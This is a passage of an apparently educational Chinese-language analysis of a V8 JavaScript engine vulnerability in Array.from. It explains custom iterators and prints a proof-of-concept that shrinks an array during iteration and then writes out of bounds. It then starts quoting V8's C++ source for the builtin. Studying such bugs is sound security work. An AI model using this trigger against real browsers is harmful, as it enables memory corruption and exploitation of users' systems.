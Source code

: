 换句话来说，我们CSA代码里，改的也是传入的数组本身，感慨JS还是要深入学习，不然这种特性我是肯定想不到的

这也解释了为什么我们传入的第一个参数是`function() { return array }`这样的写法而不是直接传入一个数组变量

第二个参数涉及到了迭代的问题，大概的语法可以看出来，主要是实现`next()`函数，这里的逻辑是循环`max`次，把`counter++`作为返回值，注意看两个`return`，`done`为`true`表示迭代完成，这里由`this.counter == this.max`判断，注意我们现在是在重写迭代函数，所以可以随意写迭代逻辑和迭代次数
```javascript
{[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 10,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) }
```

再来看Poc，我们先创建了一个数组`oobArray`，之后的写法我们上面解释过，迭代次数为`1024 * 1024 * 8`，唯一不同的是我们在迭代结束后，改掉了数组的长度
```javascript
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 1024 * 1024 * 8,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                oobArray.length = 0;
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

我们来思考下，在迭代里把数组的长度改为0或者说进行修改，会发生什么

这需要开始看源码

对应的源码就是我们刚刚看的那一段，JS里一部分数组操作写进了`builtins`，可以通过命名观察到，或者函数开头命名也行

这里贴出了整个函数的代码，前面一部分我们已经分析过
```c++
// ES #sec-array.from
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler) {
  TNode<Context> context = CAST(Parameter(BuiltinDescriptor::kContext));
  TNode<Int32T> argc =
      UncheckedCast<Int32T>(Parameter(BuiltinDescriptor::kArgumentsCount));

  CodeStubArguments args(this, ChangeInt32ToIntPtr(argc));

  TNode<Object> map_function = args.GetOptionalArgumentValue(1);

  // If map_function is not undefined, then ensure it's callable else throw.
  {
    Label no_error(this), error(this);
    GotoIf(IsUndefined(map_function), &no_error);
    GotoIf(TaggedIsSmi(map_function), &error);
    Branch(IsCallable(map_function), &no_error, &error);
```